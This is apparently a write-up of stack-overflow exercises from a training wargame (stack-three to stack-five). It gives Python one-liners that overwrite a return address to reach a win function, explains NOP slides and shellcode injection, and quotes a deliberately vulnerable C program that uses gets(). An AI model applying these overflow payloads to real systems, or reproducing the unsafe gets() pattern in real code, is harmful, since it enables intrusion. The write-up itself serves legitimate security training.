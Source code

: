 Great! You found the offset, now we need to figure out what the address of the `complete_level` function is. This can be done in GDB, but i chose `objdump` for the job, as this can easily be piped to `grep`. The command used to find the address: `objdump -d stack-three | grep "complete_level"`. Append the address to the offset and complete the challenge by using that input!

**Note:** a cool way to input characters and the offset is with python: `python -c "print 'A' * 64 + '\x9d\x06\x40'" | ./stack-three`. Here 64 being the offset length and `'\x9d\x06\x40'` being the address of the `complete_level` function.

## Stack-four

Stack-four aims to teach about what can happen when an attacker can overwrite the saved instruction pointer. This is done by overwriting the return pointer address and making it point to the address of `complete_level()`.

Solution:

```python
python -c "print 'AAAAAAAAAAAAAAAAAAAAABBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR' + '\x1d\x06\x40'" | ./stack-four
```

## Stack-five

This exercise is the first where we are going to inject shellcode and  overwrite the return address to our shellcode for execution. The way to do this is to find a piece of shellcode fitting for our architecture and injecting this on the stack (as the stack is not marked as non-executable in this program).

Problems can arise with the memory layout, making it hard to determine the exact address of the injected shellcode. To solve this, we can use a NOP slide, or No operation slide. What a NOP slide essentially is, is a series of NOP assembler commands *in front* of our shellcode, pointer somerewhere to the middle of this slide to make the program execution follow the slide until it reaches our shellcode. Quite smart!

The C code for this challenge looks a bit different:

```C
#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

We are also seing a larger buffer, probably to make more room for our shellcode. No win function (`complete_level()`) just an invitation to get a shell.

